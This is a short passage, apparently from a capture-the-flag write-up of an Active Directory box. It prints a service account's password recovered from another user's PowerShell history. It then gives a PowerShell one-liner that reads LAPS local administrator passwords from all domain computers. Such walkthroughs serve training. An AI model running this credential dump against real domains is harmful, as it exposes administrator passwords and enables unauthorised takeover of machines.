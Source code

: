 Found user `legacyy`'s console history file which contains password for user `svc_deploy`

`svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`

```powershell
net user svc_deploy
```

This user is part of LAPS group which means they can read admin password
```powershell
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```
